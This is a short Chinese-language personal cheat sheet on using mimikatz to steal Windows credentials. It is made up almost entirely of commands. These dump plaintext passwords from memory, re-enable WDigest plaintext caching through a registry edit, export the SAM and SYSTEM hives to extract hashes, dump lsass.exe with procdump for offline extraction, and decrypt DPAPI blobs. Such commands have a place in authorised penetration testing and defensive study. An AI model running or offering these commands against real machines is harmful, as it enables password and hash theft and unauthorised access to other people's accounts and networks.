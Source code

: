 # mimikatz

mimikatz可以获取windows内存中的用户密码，需要管理员权限运行，注意选择相应系统的位数  
github地址: https://github.com/gentilkiwi/mimikatz  

注：所有能获取密码的操作都在win7x64下实测可行，在win10不行  


## `基本使用`
```r
# 提升权限
privilege::debug

# 抓取密码
sekurlsa::logonpasswords
```

命令写成一行，输出重定向：  
`mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" > log.txt`  
执行之后 `Ctrl+C` 就好了  

当目标为win10或2012R2以上时，默认在内存缓存中禁止保存明文密码，但可以通过修改注册表的方式抓取明文  
`reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f`  
重启或用户重新登录后可以成功抓取(&&&&&&& 测试未成功)  


## `通过SAM获取hash`
只能获取hash，不能获取密码  
```r
#导出SAM数据
reg save HKLM\SYSTEM SYSTEM
reg save HKLM\SAM SAM

#使用mimikatz提取hash
lsadump::sam /sam:SAM /system:SYSTEM
```


## `通过dump文件提取密码`
使用procdump生成dump文件：  
`procdump64.exe -accepteula -ma lsass.exe lsass.dmp`  
使用mimikatz提取密码：  
`mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords" > pssword.txt`  


## `从dump文件获取凭证解密数据`
以前记的笔记，忘了具体什么场景了  
```r
# 从dump文件获取凭证, 解密数据
mimikatz.exe "sekurlsa::minidump mini.dmp" "sekurlsa::dpapi" "dpapi::blob /in:pass.txt" > log.txt
```

参考链接：  
1. https://www.cnblogs.com/-mo-/p/11890232.html
2. https://www.cnblogs.com/ldhbetter/p/9391913.html

基本是摘抄的，没原创  


2021/9/17  
